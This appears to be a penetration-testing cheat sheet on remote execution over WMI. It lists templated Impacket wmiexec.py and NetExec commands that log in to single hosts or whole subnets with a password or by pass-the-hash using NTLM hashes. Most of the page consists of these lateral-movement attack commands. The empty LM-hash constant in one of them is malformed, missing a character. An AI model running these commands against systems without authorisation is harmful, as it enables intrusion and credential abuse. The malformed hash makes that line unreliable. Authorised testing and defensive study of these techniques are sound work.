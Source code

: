 # Unix Shell

## 01 - Impacket

- Authenticate via impacket script with WMIExec

`$ wmiexec.py <username>:<password>@<IP> [-codecs <codec>]`

- Pass the Hash

```
$ wmiexec.py <username>@<IP> -hashes <ntlm_hash> [-codecs <codec>]

$ wmiexec.py <domain_name>/<username>@<IP> -hashes aad3b435b51404eeaa3b435b51404ee:<nt_hash> [-codecs <codec>]

$ wmiexec.py <domain_name>/<username>@<IP> -hashes :<nt_hash> [-codecs <codec>]
```

## 02 - NetExec

`$ netexec smb <IP>/<CIDR> --exec-method wmiexec -u "<username>" -p "<password>" [-d <domain_name> | --local-auth]`

- Pass the Hash

`$ netexec smb <IP>/<CIDR> --exec-method wmiexec -u "<username>" -H <nt_hash> [-d <domain_name> | --local-auth]`

---
## References

- [Mandiant: Windows Management Instrumentation](https://www.mandiant.com/sites/default/files/2021-09/wp-windows-management-instrumentation.pdf)